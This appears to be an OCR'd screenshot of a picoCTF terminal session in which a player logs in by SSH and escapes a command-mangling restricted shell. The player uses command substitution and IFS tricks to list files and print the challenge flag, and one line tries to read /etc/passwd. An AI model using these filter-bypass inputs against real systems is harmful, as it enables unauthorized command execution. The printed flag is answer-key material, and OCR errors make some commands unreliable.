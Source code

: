 Luiscat02-picoctf@webshell:/$ ssh -p 51633 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:51633 ([13.59.203.175]:51633)' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:51633' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ ls
Is 
sh: 1: Is: not found
Special$ $(uname)
$(uname) 
sh: 1: Linux: not found
Special$ $(ls)
$(ls) 
sh: 1: blargh: not found
Special$ &(ls -l)                    
Pals all 
sh: 1: Pals: not found
Special$ IFS=];b=catl/etc/passwd:$b
IFS=];b=catl/etc/passwd:$b 
Special$ $(IFS=];b=ls]blargh;$b)
$(IFS=];b=ls]blargh;$b) 
sh: 1: flag.txt: not found
Special$ $/IFS=];b=cat]blargh/flag.txt;$b)
$/IFS=];b=cat]blargh/flag.txt;$b) 
sh: 1: Syntax error: ")" unexpected
Special$ $(IFS=];b=cat]blargh/flag.txt;$b)
$(IFS=];b=cat]blargh/flag.txt;$b) 
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}: not found
Special$ 


